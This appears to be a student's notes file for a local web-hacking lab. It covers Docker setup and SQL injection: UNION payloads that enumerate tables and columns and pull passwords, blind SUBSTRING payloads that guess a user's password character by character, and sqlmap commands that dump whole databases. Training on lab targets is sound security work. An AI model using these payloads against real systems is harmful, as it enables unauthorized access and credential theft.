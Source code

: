 # Find & Exploit Common Web Application Vulnerabilities

### Lab Setup

```
sudo apt update

sudo apt upgrade

sudo apt install docker.io

sudo apt install docker-compose
```

RESTART YOUR VM

Copy the labs to a directory in your system, then open a terminal to that directory

```
tar -xf peh-web-labs.tar.gz

cd labs

sudo docker-compose up
```

The first time it runs, it will need to download some things, it may take a while depending on your 
connection. Next time you run it though, it will be much faster.

Once you see the databases are 'ready for connections' the containers should be ready to go.

The final step is to set some permissions for the webserver, this is needed for the file upload labs and the capstone challenge.

`./set-permissions.sh`

Browse to http://localhost

The first time you load the lab the database will need to be initialized, just follow the instructions in the 
red box by clicking the link, then coming back to the homepage.

Reset lab by navigating to /init.php

### SQL Injection - Introduction

```
# start the mysql service
sudo systemctl start mysql

# login to mysql
sudo mysql

# create the db and tables
CREATE DATABASE sqldemo;
use sqldemo;
CREATE TABLE users (
	username varchar(255),
	password varchar(255),
	age int,
	PRIMARY KEY (username)
);

# insert data into the users table
INSERT INTO users (username,password,age)
VALUES ("jessamy","kittems",31);
```

### SQL injection - UNION

try and force SQL errors with `'` or `"`

Find injection with ojectively true statements `' or 1=1#`

Use union to pull data from tables and columns that aren't part of the SQL query

Union select can only select the same number of columns as the original query

Determine how many columns are being used with `null`:

`jeremy' union select null#`
`jeremy' union select null,null#`
`jeremy' union select null,null,null#`

Query the DB version with a union select:

`jeremy' union select null,null,version()#`

Table names:

`jeremy' union select null,null,table_name from information_schema.tables#`

Column names:

`jeremy' union select null,null,column_name from information_schema.columns#`

Exfiltrate passwords:

`jeremy' union select null,null,password from injection0x01#`

Null's may not work as the type won't match with the column (null is a string)

Use `null(int)` or basic integers instead:

`jeremy' union select null(int),1,password from injection0x01#`

[Portswigger SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### SQL injection - Blind

Check Content length headers for a successful request vs a failure as indicators for blind SQLi

Use burp suite repeater to test parameters. Check headers for injectable parameters (Cookies, User-Agent, 
etc.)

The search bar in Repeater will display matches to a keyword when the requests complete

Save a request from Burp by copy pasting into a text file, then run sqlmap with the request

`sqlmap -r req.txt`

Blind SQLi can only be used to obtain true or false responses

[Checking string values with SUBSTRING()](https://www.w3schools.com/sql/func_sqlserver_substring.asp) allows us to enumerate usernames, passwords, DB version, etc.

Blind SQL payloads:

Check version

`' and 1=1 and substring((select version()), 1, 1) = '8'#`
`' and 1=1 and substring((select version()), 1, 2) = '8.'#`
`' and 1=1 and substring((select version()), 1, 3) = '8.0'#`
`' and 1=1 and substring((select version()), 1, 5) = '8.0.3'#`

Password of a known user

`' and 1=1 and substring((select password from tablename where username = 'username'), 1, 1) = 'a'#`

Use sqlmap to test Cookies with `--level=2`

`sqlmap -r req.txt --level=2`

Dump the DB

`sqlmap -r req.txt --level=2 --dump`

Only dump a specific table

`sqlmap -r req.txt --level=2 --dump -T injection0x02`

### SQL injection Challenge

Find number of columns:

`' union select null,null,null,null#`

Find table names:

`' union select null,null,null,table_name from information_schema.tables#`

Find column names:

`' union select null,null,null,column_name from information_schema.columns where table_name = 'injection0x03_users'#`

Find usernames:

`' union select null,null,null,username from injection0x03_users#`
